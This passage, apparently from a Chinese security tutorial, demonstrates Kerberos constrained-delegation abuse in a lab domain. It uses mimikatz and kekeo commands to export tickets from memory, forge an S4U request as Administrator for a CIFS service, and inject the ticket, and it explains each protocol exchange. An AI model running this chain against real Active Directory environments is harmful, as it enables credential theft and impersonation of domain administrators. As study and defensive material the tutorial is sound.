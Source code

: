 从内存中导出所有票据

sekurlsa::tickets /export

![](https://gitee.com/fuli009/images/raw/master/public/20210804091115.png)

然后通过win7的TGT伪造s4u请求以administrator身份请求访问WIN-KONG cifs的ST

tgs::s4u /tgt:TGT_win7@HIRO.COM_krbtgt~hiro.com@HIRO.COM.kirbi
/user:Administrator@hiro.com /service:cifs/WIN-KONG.hiro.com

![]()![](https://gitee.com/fuli009/images/raw/master/public/20210804091116.png)

用mimikatz将票据导入内存中

kerberos::ptt TGS_Administrator@hiro.com@HIRO.COM_cifs~WIN-
KONG.hiro.com@HIRO.COM.kirbi

![](https://gitee.com/fuli009/images/raw/master/public/20210804091117.png)

访问域控：

![]()

* * *

###  **约束委派请求过程：**

`tgt::ask /user:win7 /domain:hiro.com /password:123456QWE.`

###  **AS-REQ**

以用户win7请求TGT

![](https://gitee.com/fuli009/images/raw/master/public/20210804091118.png)

###  **AS-REP**

AS返回用户win7的TGT，也就是得到了TGT_win7@HIRO.COM_krbtgt~hiro.com@HIRO.COM.kirbi

![]()

`tgs::s4u /tgt:TGT_win7@HIRO.COM_krbtgt~hiro.com@HIRO.COM.kirbi
/user:Administrator@hiro.com /service:cifs/WIN-KONG.hiro.com`

###  **TGS-REQ**

win7用户用上一步得到的TGT，用上S4U2Self协议，以administrator的名义向TGS申请一张访问自身服务并且可转发的ST1票据。

![](https://gitee.com/fuli009/images/raw/master/public/20210804091119.png)

###  **TGS-REP**

TGS返回administrator的ST1票据给win7
